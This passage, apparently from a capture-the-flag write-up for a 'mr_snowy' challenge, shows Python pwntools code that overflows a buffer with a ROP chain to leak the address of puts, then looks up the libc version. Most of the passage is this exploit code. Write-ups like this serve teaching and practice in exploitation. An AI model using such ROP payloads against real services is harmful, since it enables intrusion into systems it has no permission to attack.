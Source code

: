 ```python
	pop_rdi,
	puts_got,
	puts_plt,
	main_plt
]

rop = b"".join([p64(i) for i in rop])
payload = b"A"*offset + rop

# to run the libc leak address
print(s.recvuntil(b"> ").decode())
print("1")
s.sendline(b"1")
print(s.recvuntil(b"> ").decode())

print(payload)
s.sendline(payload)
print(s.recvuntil(b"\x1B[1;31m"))

print(s.recvline().decode())
print(s.recvline().decode())
leakPuts = u64(s.recvuntil(b"\n").rstrip().ljust(8,b"\x00"))
log.info(f"Leak Puts: {hex(leakPuts)}")
```

![](img/mr_snowy-leakServer.png)

Great! Let's check the libc version using [libc.blukat.me](https://libc.blukat.me/).

![](img/mr_snowy-libc.png)


[Location]: 🎅 Santa's garden..                                                                                  
[Location]: 🎅 Santa's garden..                                                                                  